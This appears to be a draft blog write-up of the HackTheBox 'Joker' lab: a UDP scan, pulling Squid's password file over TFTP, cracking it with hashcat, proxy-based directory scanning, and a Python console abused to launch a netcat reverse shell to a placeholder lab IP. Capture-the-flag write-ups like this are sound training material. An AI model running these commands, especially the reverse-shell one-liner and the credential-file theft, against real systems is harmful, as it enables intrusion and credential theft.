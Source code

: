 ```yaml
---
layout: post
title: Joker
tags: [HackTheBox, Nmap, TFTP, UDP, Joker, Squid, Proxy, Hashcat, sudo, Wildcards]
---
```



### 0x00 : Recon

Important thing here is to spot UDP services<br>
* -sC : --script=safe,intrusive
* -sV : get the running version of the services
* -sU : UDP scan
* -sT : TCP scan
* -T4 : no more than 10ms dynamic delay
* -oA : output logs in all formats

{% highlight bash %}
   nmap -sC -sV -sU -sT -T4 -oA nmap_udp.joker 10.10.10.21
{% endhighlight %}

![joker nmap]({{ site.baseurl }}/assets/img/joker/nmap.png)

> How to know why to search into UDP ports ?

explain ports


<br><br>

### 0x01 : Exploitation

Once connected to the TFTP server we have to "poke" around, in order to determine where we are.
After a few trial and error, we can determine that the root of the TFTP server is the "/" or "root" of the box.
According to our authorizations we can download two interesting files, related to the Squid proxy :

{% highlight bash %}
  get /etc/squid/squid.conf
  get /etc/squid/passwords
{% endhighlight %}

Taking a look at the password file we can identify the hash as "Apache $apr1$ MD5, md5apr1, MD5ARP" according to this [hashcat cheatsheet](https://www.dropbox.com/s/kdklrowv683yq1a/HashcatCheatSheet.v2018.1b%20%282%29.pdf?dl=0).
All we have to do then is pass the hash without the username to hashcat :

{% highlight bash %}
  hashcat -m 1600 hash.txt rockyou.txt
{% endhighlight %}

Now that we've got a username and a password, we can configure our browser with those credentials to connect to that proxy.
Once connected, address 127.0.0.1 reveals an URL shortener kinda app.
Before going further, let's launch a scan in the background :
{% highlight bash %}
  dirb http://127.0.0.1:80 -p 10.10.10.21:3128 -P kalamari:ihateseafood -o dirb.joker.txt
{% endhighlight %}
* -p : specifies the proxy address
* -P : specifies the credentials for that proxy
* -o : save the output to a file
The "list" directory shows the list of previously shortned URL.
The "console" page reveals... a python console !
> screenshot<br>
> determine python version<br>
{% highlight bash %}
  import os;os.popen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -u <LAB IP> <PORT> >/tmp/f &").read()
{% endhighlight %}
> python reverse shell UDP ?<br>

Big thanks to [ippsec](https://twitter.com/ippsec) for his great [videos](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA) and kind answers
